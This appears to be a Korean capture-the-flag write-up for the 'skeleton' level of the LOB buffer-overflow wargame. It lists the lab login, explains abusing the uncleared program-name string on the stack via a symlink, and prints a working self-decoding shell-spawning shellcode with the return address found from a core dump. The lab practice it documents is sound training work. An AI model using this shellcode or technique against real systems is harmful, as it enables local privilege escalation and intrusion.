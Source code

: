 # [LOB] skeleton Write-up

![](./picture/skeleton_1.JPG)

```
login : vampire
Password : music world
```

위의 계정으로 로그인하면 접속된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/skeleton_2.JPG)

이번 문제에서는 argv를 다 초기화한다. 하지만 스택 바닥쪽에 프로그램 실행명은 초기화되지 않는다. 한 번 확인해보자.

```
\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81
```
사용한 쉘코드는 위에 있다.

![](./picture/skeleton_3.JPG)

쉘코드+NOP(100byte)로 심볼릭 링크를 복사한 파일에 걸어주었다. 리턴주소를 이상하게 주어 core dump를 떠 분석해보았다. 

![](./picture/skeleton_4.JPG)

확인해보면 쉘코드와 NOP을 확인할 수 있다. 쉘코드의 시작 주소는 `0xbfffff67`이다. 

![](./picture/skeleton_5.JPG)
![](./picture/skeleton_6.JPG)


심볼릭 링크를 삭제하고, skeleton에 다시 걸어주었다.


